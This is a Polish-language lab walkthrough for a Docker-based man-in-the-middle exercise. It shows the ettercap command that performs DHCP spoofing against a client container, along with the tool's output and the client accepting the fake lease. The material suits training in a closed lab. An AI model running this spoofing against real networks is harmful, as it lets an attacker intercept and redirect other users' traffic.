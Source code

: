
# Uruchomienie kontenerów

```powershell
cd man-in-the-middle
docker-compose up
```

## Wejście do powłoki kontenera

```powershell
docker exec -it <attacker/client> [ba]sh
```


>[!TIP] Wyjść z powłoki można wywołując polecenie `exit`.

# Sprawdzenie stanu początkowego

## Klient

```sh
ip a
```

Odpowiedzią powinna być konfiguracja adresów ip przypisana przez Docker gdzie widać adres `192.168.15.4/24`:
```bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if100: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether d2:e1:3d:ae:8c:45 brd ff:ff:ff:ff:ff:ff
    inet 192.168.15.4/24 brd 192.168.15.255 scope global eth0
       valid_lft forever preferred_lft forever
```

# Atak DHCP spoofing

Wejdź do powłoki klienta i wywołaj polecenie:

```sh
udhcpc -i eth0 -v
```

Na kliencie uruchomienie `udhcpc -i eth0 -v` powoduje wysłanie żądania DHCP.
```bash
udhcpc -i eth0 -v
udhcpc: started, v1.37.0
udhcpc: broadcasting discover
...
...
```

Przejdź do powłoki atakującego i wywołaj polecenie:
```shell
ettercap -T -q -i eth0 -M dhcp:192.168.15.100-192.168.15.200/255.255.255.0/192.168.15.3
```
gdzie parametrami są:
- IP pool - `192.168.15.100-192.168.15.200`
- Netmask - `255.255.255.0`
- DNS server ip - `192.168.15.3`

Wynikiem wywołania tej komendy powinno być działanie:
```bash
ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
  eth0 -> 02:5F:55:6F:6E:4F
          192.168.15.3/255.255.255.0


SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

2 hosts added to the hosts list...
DHCP spoofing: using specified ip_pool, netmask 255.255.255.0, dns 192.168.15.3
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help



Hosts list:

1)      192.168.15.1    B2:08:4A:CA:E8:D3
2)      192.168.15.4    D2:E1:3D:AE:8C:45


DHCP: [D2:E1:3D:AE:8C:45] DISCOVER 
DHCP spoofing: fake OFFER [D2:E1:3D:AE:8C:45] offering 192.168.15.100 
DHCP: [192.168.15.3] OFFER : 192.168.15.100 255.255.255.0 GW 192.168.15.3 DNS 192.168.15.3 
DHCP: [D2:E1:3D:AE:8C:45] REQUEST 192.168.15.100
DHCP spoofing: fake ACK [D2:E1:3D:AE:8C:45] assigned to 192.168.15.100 
DHCP: [192.168.15.3] ACK : 192.168.15.100 255.255.255.0 GW 192.168.15.3 DNS 192.168.15.3 
```
Wynik działania Ettercap (wyświetlający komunikaty OFFER, REQUEST, ACK) odzwierciedla prawidłowy przebieg rozmowy DHCP.

A po stronie klienta powinniśmy zauważyć komunikat:
```bash
udhcpc: broadcasting select for 192.168.15.100, server 192.168.15.3
udhcpc: lease of 192.168.15.100 obtained from 192.168.15.3, lease time 1800
```
Komunikaty udhcpc, takie jak „broadcasting select for 192.168.15.100, server 192.168.15.3” oraz „lease of 192.168.15.100 obtained from 192.168.15.3, lease time 1800”, potwierdzają, że klient otrzymał fałszywe ustawienia z atakującego.

